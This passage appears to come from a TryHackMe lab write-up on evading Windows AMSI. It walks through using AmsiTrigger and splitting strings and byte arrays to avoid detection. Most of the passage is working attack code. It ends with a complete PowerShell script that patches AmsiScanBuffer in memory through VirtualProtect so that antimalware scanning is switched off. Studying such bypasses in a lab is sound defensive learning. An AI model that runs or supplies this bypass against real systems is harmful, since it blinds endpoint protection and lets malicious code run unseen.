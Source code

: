 So we can fix it by applying what seen in previous room (Obfuscation principles <https://www.cyb3rm3.com/posts/THM-obfuscationprinciples/>) like by splitting up the string.

After this, we can run again amsitrigger.exe and he'll stop on the line :

```powershell
$buf = [Byte[]]([UInt32]0xB8,[UInt32]0x57, [UInt32]0x00, [Uint32]0x07, [Uint32]0x80, [Uint32]0xC3); 
[system.runtime.interopservices.marshal]::copy($buf, 0, $BufferAddress, 6);
```
{: .nolineno }

We can use the splitting method again by filling the buffer variable $buf in multiple lines :

```powershell
$buf = New-Object bytes [] 6;
$buf[0] = [UInt32]0xB8;
$buf[1] = [UInt32]0x57;
$buf[2] = [UInt32]0x00;
$buf[3] = [UInt32]0x07;
$buf[4] = [UInt32]0x80;
$buf[5] = [UInt32]0xC3;
```
{: .nolineno }

The final script become now :

```powershell
$MethodDefinition = "

    [DllImport(`"kernel32`")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport(`"kernel32`")]
    public static extern IntPtr GetModuleHandle(string lpModuleName);

    [DllImport(`"kernel32`")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

    [DllImport(`"kernel32`")]
    public static extern strings GetString(string passobfsucation){return passobfsucation.toString()};
";

$Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kernel32' -NameSpace 'Win32' -PassThru;
$A = "Ams"+"iSca"+"nBu"+"ffer"
$handle = [Win32.Kernel32]::GetModuleHandle('amsi.dll');
[IntPtr]$BufferAddress = [Win32.Kernel32]::GetProcAddress($handle, $A);
[UInt32]$Size = 0x5;
[UInt32]$ProtectFlag = 0x40;
[UInt32]$OldProtectFlag = 0;
[Win32.Kernel32]::VirtualProtect($BufferAddress, $Size, $ProtectFlag, [Ref]$OldProtectFlag);
$buf = New-Object bytes [] 6;
$buf[0] = [UInt32]0xB8;
$buf[1] = [UInt32]0x57;
$buf[2] = [UInt32]0x00;
$buf[3] = [UInt32]0x07;
$buf[4] = [UInt32]0x80;
$buf[5] = [UInt32]0xC3;
[system.runtime.interopservices.marshal]::copy($buf, 0, $BufferAddress, 6);
```
{: .nolineno }
